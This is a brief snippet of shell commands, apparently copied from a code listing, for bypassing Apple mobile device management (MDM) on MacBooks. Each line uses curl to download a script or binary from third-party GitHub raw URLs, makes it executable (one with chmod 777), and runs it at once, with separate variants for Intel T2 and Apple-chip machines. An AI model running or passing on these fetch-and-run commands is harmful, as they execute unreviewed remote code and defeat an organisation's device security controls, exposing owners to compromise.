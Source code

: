 # mdm from https://github.com/nikhillalkota/mdm-bypass/blob/test/script.sh
curl https://raw.githubusercontent.com/Hajcuska/mdm/main/script.sh -o macbook-mdm-bypass.sh; \
chmod +x macbook-mdm-bypass.sh; \
sh macbook-mdm-bypass.sh;


#mdm from https://github.com/gamethapcam/mdm-bypass/tree/main
#M2chip-Apple  T2Chip-Intel
#intel
curl -# https://raw.githubusercontent.com/Hajcuska/mdm/main/T2Chip -o file && chmod 777 ./file && ./file
#apple
curl -# https://raw.githubusercontent.com/Hajcuska/mdm/main/MChip -o file && chmod 777 ./file && ./file
